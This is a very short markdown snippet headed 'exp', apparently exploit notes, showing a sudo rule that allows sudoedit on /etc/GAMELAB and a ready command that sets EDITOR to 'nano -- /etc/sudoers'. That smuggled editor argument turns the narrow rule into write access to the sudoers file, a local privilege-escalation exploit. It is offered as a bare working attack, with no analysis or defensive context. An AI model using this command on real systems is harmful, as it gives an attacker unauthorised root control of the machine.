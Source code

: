 # exp

## sudoedit
```sh
sudo -l
NOPASSWD: sudoedit /etc/GAMELAB
# exp
$ EDITOR='nano -- /etc/sudoers' sudoedit /etc/GAMELAB
```